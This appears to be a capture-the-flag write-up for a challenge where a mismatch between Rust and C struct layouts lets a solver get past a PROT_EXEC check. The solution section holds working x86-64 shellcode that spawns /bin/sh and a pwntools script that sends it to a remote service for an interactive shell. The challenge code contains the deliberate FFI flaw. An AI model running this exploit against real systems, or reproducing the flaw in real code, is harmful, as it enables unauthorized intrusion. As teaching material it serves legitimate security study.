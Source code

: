
## Provided Files
- chal.c
- chal
- lib.rs
- libi_love_ffi.so
- Dockerfile

```c filename="chal.c"
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <stddef.h>
#include <unistd.h>
#include <sys/mman.h>

struct MmapArgs {
    uint64_t * addr;
    uint64_t length;
    int protection;
    int flags;
    int fd;
    uint64_t offset;
};

extern struct MmapArgs mmap_args();

int main () {
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    struct MmapArgs args = mmap_args();
    char * buf = mmap(args.addr, args.length, args.protection, MAP_PRIVATE | MAP_ANON, args.fd, args.offset);
    if (buf < 0) {
        perror("failed to mmap");
    }

    read(0, buf, 0x1000);

    printf("> ");
    int op;
    if (scanf("%d", &op) == 1) {
        switch (op) {
            case 0:
                ((void (*)(void))buf)();
                break;
            case 1:
                puts(buf);
                break;
        }
    }
}
```

```rs filename="lib.rs"
#![allow(warnings)]

pub struct MmapArgs {
    addr: u64,
    length: u64,
    protection: u32,
    flags: u32,
    fd: u32,
    offset: u64,
}

#[no_mangle]
pub extern "C" fn mmap_args() -> MmapArgs {
    let args = MmapArgs {
        addr: read::<u64>(),
        length: read::<u64>(),
        protection: read::<u32>(),
        flags: read::<u32>(),
        fd: read::<u32>(),
        offset: read::<u64>(),
    };

    if args.protection & 4 != 0 {
        panic!("PROT_EXEC not allowed");
    }

    args
}
```

## Intended
The challenge provides the source for `chal` and `libi_love_ffi.so` in `chal.c` and
`lib.rs` respectively. On the Rust side, an `mmap_args` function is defined that
sets up the arguments and passes them over to C to execute. The Rust performs some
basic checks to prevent passing the `PROT_EXEC` flag in the protections field, which
should prevent allocating shellcode.

However, although the struct definitions in Rust and C are equivalent with the
layout and types exactly the same, when you are compiled they are generated
differently. Modern compilers will typically pad struct fields so that memory
accesses to those fields are faster. The problem is that Rust and C have different
padding behavior. C will attempt to align struct fields to their memory size, but
will maintain struct order. Rust will also attempt to align struct fields to their
memory size, but will not maintain struct order.

### memory layout
| offset | C          | Rust       |
|:-------|:-----------|:-----------|
| 0x00   | addr       | addr       |
| 0x04   | addr       | addr       |
| 0x08   | length     | length     |
| 0x0C   | length     | length     |
| 0x10   | protection | offset     |
| 0x14   | flags      | offset     |
| 0x18   | fd         | protection |
| 0x1C   | [ unused ] | flags      |
| 0x20   | offset     | fd         |
| 0x24   | offset     | [ unused ] |

As we can see in the above chart, the fields in Rust dont match up one-to-one to the
struct fields on the C side. This allows us to bypass the protection check in rust
and allocate shellcode.

### Solution
```x86asm filename="shellcode.asm" open
    bits 64
    
_start:
    mov rax, `/bin/sh`
    push rax
    mov eax, 0x3b
    mov rdi, rsp
    xor esi, esi
    xor edx, edx
    syscall
```

```python filename="main.py" open
from pwn import *

p = remote(args.HOST, args.PORT)

for n in [0, 0x1000, 0, 0, 0, 7]:
    p.sendlineafter(b"> ", str(n).encode())

p.send(open("shellcode", "rb").read().ljust(4096, b"\x00"))
p.sendlineafter(b"> ", b"0")

p.interactive()
```

## Unintendeds
No unintendeds :D